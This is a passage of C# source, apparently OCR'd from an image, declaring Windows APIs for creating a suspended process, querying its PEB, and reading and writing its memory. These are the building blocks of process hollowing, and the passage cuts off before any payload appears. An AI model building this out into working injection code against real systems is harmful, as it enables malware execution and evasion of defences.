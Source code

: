 ```csharp
            IntPtr lpEnvironment,
            string lpCurrentDirectory,
            [In] ref STARTUPINFO lpStartupInfo,
            out PROCESS_INFORMATION lpProcessInformation
        );

        // http://www.pinvoke.net/default.aspx/kernel32/ResumeThread.html
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern uint ResumeThread(IntPtr hThread);

        // http://www.pinvoke.net/default.aspx/Structures/PROCESS_BASIC_INFORMATION.html
        [StructLayout(LayoutKind.Sequential)]
        internal struct PROCESS_BASIC_INFORMATION
        {
            public IntPtr ExitStatus;
            public IntPtr PebAddress;
            public IntPtr AffinityMask;
            public IntPtr BasePriority;
            public IntPtr UniquePID;
            public IntPtr InheritedFromUniqueProcessId;
        }

        [DllImport("ntdll.dll", CallingConvention = CallingConvention.StdCall)]
        static extern int ZwQueryInformationProcess(
            IntPtr hProcess,
            int procInformationClass,
            ref PROCESS_BASIC_INFORMATION procInformation,
            uint ProcInfoLen,
            ref uint retlen
        );

        // http://www.pinvoke.net/default.aspx/kernel32/ReadProcessMemory.html
        [DllImport("kernel32.dll", SetLastError = true)]
        static extern bool ReadProcessMemory(
            IntPtr hProcess,
            IntPtr lpBaseAddress,
            [Out] byte[] lpBuffer,
            int dwSize,
            out IntPtr lpNumberOfBytesRead
        );

        // http://www.pinvoke.net/default.aspx/kernel32/WriteProcessMemory.html
        [DllImport("kernel32.dll", SetLastError = true)]
        public static extern bool WriteProcessMemory(
            IntPtr hProcess,
            IntPtr lpBaseAddress,
            byte[] lpBuffer,
            Int32 nSize,
            out IntPtr lpNumberOfBytesWritten
        );

        // https://learn.microsoft.com/en-us/windows/win32/procthread/process-creation-flags
        static uint CREATE_SUSPENDED = 0x00000004;

        // https://learn.microsoft.com/en-us/windows/win32/procthread/zwqueryinformationprocess
        static int ProcessBasicInformation = 0x00000000;

        static void Main(string[] args)
        {

            STARTUPINFO si = new STARTUPINFO();
            PROCESS_INFORMATION pi;
            SECURITY_ATTRIBUTES sa = new SECURITY_ATTRIBUTES();
```